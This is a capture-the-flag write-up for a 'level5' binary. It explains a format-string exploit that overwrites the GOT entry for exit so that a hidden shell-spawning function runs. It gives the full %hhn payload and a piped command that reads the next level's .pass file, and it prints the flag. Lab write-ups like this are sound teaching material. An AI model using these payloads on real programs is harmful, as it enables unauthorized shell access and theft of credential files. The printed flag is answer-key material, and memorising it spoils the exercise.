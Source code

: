 # level5

This executable shows a function `o`, uncalled, that runs `system("/bin/sh")`

To solve, we'll have to call `o` anyway. How can we do that ?

The `GOT` (Global Offset Table) holds the addresses of included functions ; by changing a value there, we can call whatever we want.

The `n` function, called by `main`, runs `exit` at the end. We decide to replace `exit`'s GOT address with `o`.

## **The value**

Cutter reveals the address of `o`, our spoofed value : `0x080484a4`.

This can be broken down in four :
- `0x08` or `8`
- `0x04` or `4`
- `0x84` or `132`
- `0xa4` or `164`

## **The address**

Cutter's green bar at the top allows us to skim through the important part. At the end, we find `.got.plt` and go to it.

```
;-- exit:
0x08049838      .dword 0x080483d6  ; RELOC 32 exit
```

It reveals the address at which `exit` is referenced : `0x08049838`

Fortunately, its value, `0x080483d6`, already shares two bytes with the value we want, `0x080484a4`. We'll just need to change bytes #3 and #4.

## **The buffer**

Quick experimentation reveals the beginning of the buffer is at spot `%4$`.

Since our smallest `n` value is `132`, we can start with the addresses.

We write `132` bytes, including our two addresses at places #4 and #6, our `%6$hhn`, `32` more bytes to get to `164`, and finally our `%4$hhn`.

## **The exploit**

We turn that into something we can output in Python :

```
python -c 'print("\x38\x98\x04\x08____\x39\x98\x04\x08________________________________________________________________________________________________________________________%6$hhn________________________________%4$hhn")'
```

## **The flag**

Now we just have to format this to send it to our executable :

```
( python -c 'print("\x38\x98\x04\x08____\x39\x98\x04\x08________________________________________________________________________________________________________________________%6$hhn________________________________%4$hhn")' ; echo 'cat /home/user/level6/.pass' ) | ./level5
```

It works ! We get the `level5` flag :

```
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```